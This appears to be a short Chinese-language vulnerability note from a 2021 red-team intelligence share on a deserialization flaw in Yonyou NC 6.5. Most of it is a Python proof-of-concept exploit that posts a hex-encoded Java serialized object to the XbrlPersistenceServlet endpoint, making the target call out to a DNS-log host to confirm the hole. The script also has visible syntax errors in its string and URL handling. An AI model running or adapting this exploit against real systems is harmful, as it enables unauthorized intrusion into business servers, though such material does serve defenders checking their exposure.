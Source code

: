 # 用友NC反序列化
![](2021.4.9%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

捕获到攻击队利用用友nc反序列

目前测试影响版本：nc6.5

漏洞url为：

`**/service/~xbrl/XbrlPersistenceServlet**`

**poc：**

    import requests
    import threadpool
    import urllib3
    import sys
    import base64
    
    ip = ""
    dnslog = "\x79\x37\x64\x70\" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
    data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"
    
    uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
    req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
    print (req.text)

成功回显